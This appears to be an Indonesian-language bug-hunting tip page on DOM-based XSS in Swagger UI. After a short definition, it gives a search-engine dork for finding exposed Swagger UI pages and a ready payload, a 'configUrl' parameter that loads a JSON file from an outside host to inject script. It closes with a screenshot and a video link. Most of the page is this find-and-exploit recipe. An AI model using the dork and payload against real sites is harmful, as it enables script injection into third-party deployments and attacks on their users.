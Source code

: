# 🚀 DOM-based XSS pada Swagger UI

Singkatnya DOM-Based XSS adalah jenis serangan XSS di mana eksekusi skrip berbahaya terjadi di sisi klien (browser) melalui manipulasi DOM, tanpa respons langsung dari server. Serangan ini biasanya terjadi ketika JavaScript mengambil input dari URL atau elemen DOM lain tanpa validasi, memungkinkan penyerang menyisipkan dan menjalankan kode berbahaya di halaman web korban.


# ⚡ Refrensi
https://github.com/seanmarpo/webjars-swagger-xss


# 🔎 Dork

```
intitle:"Swagger UI" site:.
```


# 👨‍💻 Payload

```
?configUrl=https://xss.smarpo.com/test.json
```

# 🖼️ Screenshots 

<img src="https://raw.githubusercontent.com/randixploit/Bug-Hunting-Tips/refs/heads/main/Indonesia/Cross%20Site%20Scripting/DOM-based%20XSS%20pada%20Swagger%20UI/kmc_20250216_010023.png">


# 🎥 Video

[![Watch on YouTube](https://img.youtube.com/vi/dP2SHlghC0E/0.jpg)](https://youtu.be/dP2SHlghC0E)


Semoga mudah di pahami
